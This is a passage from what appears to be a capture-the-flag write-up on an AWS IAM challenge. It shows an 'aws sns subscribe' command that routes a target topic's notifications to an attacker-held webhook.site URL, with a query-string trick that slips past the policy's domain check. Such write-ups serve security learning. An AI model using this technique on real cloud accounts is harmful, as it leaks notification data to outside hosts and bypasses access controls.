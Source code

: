 ```
aws sns subscribe --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --return-subscription-arn --protocol https --notification-endpoint https://webhook.site/1277b343-f73a-4753-9042-0bcb6b9ced04?foo=@tbic.wiz.io
```
Excellent! We've successfully subscribed to the SNS service. 
![c3 wh](/assets/img/2023-09-24-iam/chal3_subreal.png)

Lets check our webhook to see if we've gotten any traffic yet. Initially, we see a HTTP POST request from AWS asking us to confirm our subscription to the `TBICWizPushNotifications` SNS service.
![c3 suc](/assets/img/2023-09-24-iam/chal3_subsuccess.png)

Browsing to the URL specified in the`SubscribeURL` field actually confirms our intent to subscribe with SNS.

![c3 flag](/assets/img/2023-09-24-iam/chal3_subconf.png)
